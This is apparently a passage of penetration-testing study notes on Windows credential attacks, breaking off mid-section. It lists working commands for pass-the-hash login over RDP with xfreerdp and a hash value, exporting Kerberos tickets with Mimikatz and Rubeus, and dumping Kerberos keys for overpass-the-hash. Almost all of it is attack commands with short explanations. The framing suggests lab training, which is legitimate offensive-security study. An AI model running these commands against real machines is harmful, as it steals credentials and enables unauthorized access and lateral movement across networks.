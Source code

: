 #### Pass-the-Hash Using RDP
```Shell
xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```


## Pass the Ticket (PtT) Attack (Windows)

### Harvesting Kerberos Tickets from Windows

#### Mimikatz - Export Tickets
```cmd.exe
mimikatz.exe
```

```cmd.exe
privilege::debug
```

```cmd.exe
sekurlsa::tickets /export
```

```cmd.exe
exit
```

```cmd.exe
dir *.kirbi
```
*Note: If you pick a ticket with the service `krbtgt`, it corresponds to the TGT of that account.*

### Rubeus - Export Tickets
```cmd.exe
Rubeus.exe dump /nowrap
```

*Note: To collect all tickets we need to execute Mimikatz or Rubeus as an administrator*

### Pass the Key or OverPass the Hash

#### Mimikatz - Extract Kerberos Keys
```cmd.exe
mimikatz.exe
```

```cmd.exe
privilege::debug
```

```cmd.exe
sekurlsa::ekeys
```
Now that we have access to the `AES256_HMAC` and `RC4_HMAC` keys, we can perform the OverPass the Hash or Pass the Key attack using `Mimikatz` and `Rubeus`

#### Mimikatz - Pass the Key or OverPass the Hash
```cmd.exe
mimikatz.exe
```
